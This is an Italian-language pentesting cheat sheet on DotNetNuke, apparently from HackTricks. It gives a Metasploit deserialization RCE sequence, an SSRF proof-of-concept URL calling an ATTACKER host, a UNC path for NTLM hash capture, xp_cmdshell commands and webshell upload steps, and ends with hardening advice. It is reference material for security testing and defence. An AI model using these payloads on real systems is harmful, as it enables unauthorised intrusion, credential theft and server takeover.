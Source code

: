 # DotNetNuke (DNN)

{{#include ../../banners/hacktricks-training.md}}

## DotNetNuke (DNN)

Se accedi come **amministratore** in DNN è facile ottenere **RCE**, tuttavia un certo numero di tecniche *non autenticate* e *post-autenticazione* sono state pubblicate negli ultimi anni. Il seguente cheat-sheet raccoglie le primitive più utili sia per il lavoro offensivo che difensivo.

---
## Enumerazione della Versione & Ambiente

* Controlla l'intestazione di risposta HTTP *X-DNN* – di solito rivela la versione esatta della piattaforma.
* Il wizard di installazione rivela la versione in `/Install/Install.aspx?mode=install` (accessibile su installazioni molto vecchie).
* `/API/PersonaBar/GetStatus` (9.x) restituisce un blob JSON contenente `"dnnVersion"` per utenti a bassa privilegio.
* Cookie tipici che vedrai su un'istanza live:
* `.DOTNETNUKE` – ticket di autenticazione dei moduli ASP.NET.
* `DNNPersonalization` – contiene dati del profilo utente in XML/serializzati (versioni vecchie – vedi RCE qui sotto).

---
## Sfruttamento Non Autenticato

### 1. Deserializzazione dei Cookie RCE  (CVE-2017-9822 & seguiti)
*Versioni interessate ≤ 9.3.0-RC*

`DNNPersonalization` viene deserializzato ad ogni richiesta quando il gestore 404 integrato è abilitato. XML creato ad arte può quindi portare a catene di gadget arbitrarie ed esecuzione di codice.
```
msf> use exploit/windows/http/dnn_cookie_deserialization_rce
msf> set RHOSTS <target>
msf> set LHOST  <attacker_ip>
msf> run
```
Il modulo sceglie automaticamente il percorso giusto per le versioni patchate ma ancora vulnerabili (CVE-2018-15811/15812/18325/18326).  L'exploitation funziona **senza autenticazione** su 7.x–9.1.x e con un account *verificato* a basso privilegio su 9.2.x+.

### 2. Server-Side Request Forgery  (CVE-2025-32372)
*Versioni interessate < 9.13.8  –  Patch rilasciata aprile 2025*

Un bypass della vecchia correzione `DnnImageHandler` consente a un attaccante di costringere il server a emettere **richieste GET arbitrarie** (SSRF semi-alla cieca).  Impatti pratici:

* Scansione delle porte interne / scoperta dei servizi metadata nelle implementazioni cloud.
* Raggiungere host altrimenti protetti da firewall da Internet.

Proof-of-concept (sostituire `TARGET` & `ATTACKER`):
```
https://TARGET/API/RemoteContentProxy?url=http://ATTACKER:8080/poc
```
La richiesta viene attivata in background; monitora il tuo listener per i callback.

### 3. Esposizione dell'Hash NTLM tramite Redirect UNC  (CVE-2025-52488)
*Versioni interessate 6.0.0 – 9.x (< 10.0.1)*

Contenuti appositamente creati possono far sì che DNN tenti di recuperare una risorsa utilizzando un **percorso UNC** come `\\attacker\share\img.png`. Windows eseguirà felicemente la negoziazione NTLM, rivelando gli hash degli account server all'attaccante. Aggiorna a **10.0.1** o disabilita SMB in uscita nel firewall.

### 4. Bypass del Filtro IP  (CVE-2025-52487)
Se gli amministratori si affidano ai *Filtri Host/IP* per la protezione del portale admin, sii consapevole che le versioni precedenti a **10.0.1** possono essere bypassate manipolando `X-Forwarded-For` in uno scenario di reverse-proxy.

---
## Post-Autenticazione a RCE

### Tramite console SQL
Sotto **`Impostazioni → SQL`** una finestra di query integrata consente l'esecuzione contro il database del sito. Su Microsoft SQL Server puoi abilitare **`xp_cmdshell`** e generare comandi:
```sql
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
GO
xp_cmdshell 'whoami';
```
### Via upload di webshell ASPX
1. Vai a **`Impostazioni → Sicurezza → Altro → Ulteriori impostazioni di sicurezza`**.
2. Aggiungi `aspx` (o `asp`) a **Estensioni di file consentite** e **Salva**.
3. Naviga a **`/admin/file-management`** e carica `shell.aspx`.
4. Attivalo su **`/Portals/0/shell.aspx`**.

---
## Escalation dei privilegi su Windows
Una volta ottenuta l'esecuzione del codice come **IIS AppPool\<Site>**, si applicano tecniche comuni di escalation dei privilegi di Windows. Se la macchina è vulnerabile, puoi sfruttare:

* **PrintSpoofer** / **SpoolFool** per abusare di *SeImpersonatePrivilege*.
* **Juicy/Sharp Potatoes** per sfuggire a *Service Accounts*.

---
## Raccomandazioni di indurimento (Blue Team)

* **Aggiorna** ad almeno **9.13.9** (risolve il bypass SSRF) o preferibilmente **10.0.1** (problemi di filtro IP e NTLM).
* Rimuovi i file residui **`InstallWizard.aspx*`** dopo l'installazione.
* Disabilita l'uscita SMB outbound (porte 445/139).
* Applica filtri *Host* forti sul proxy di edge piuttosto che all'interno di DNN.
* Blocca l'accesso a `/API/RemoteContentProxy` se non utilizzato.

## Riferimenti

* Documentazione del modulo Metasploit `dnn_cookie_deserialization_rce` – dettagli pratici su RCE non autenticato (GitHub).
* Avviso di sicurezza GitHub GHSA-3f7v-qx94-666m – informazioni sul bypass SSRF del 2025 e patch.
{{#include ../../banners/hacktricks-training.md}}
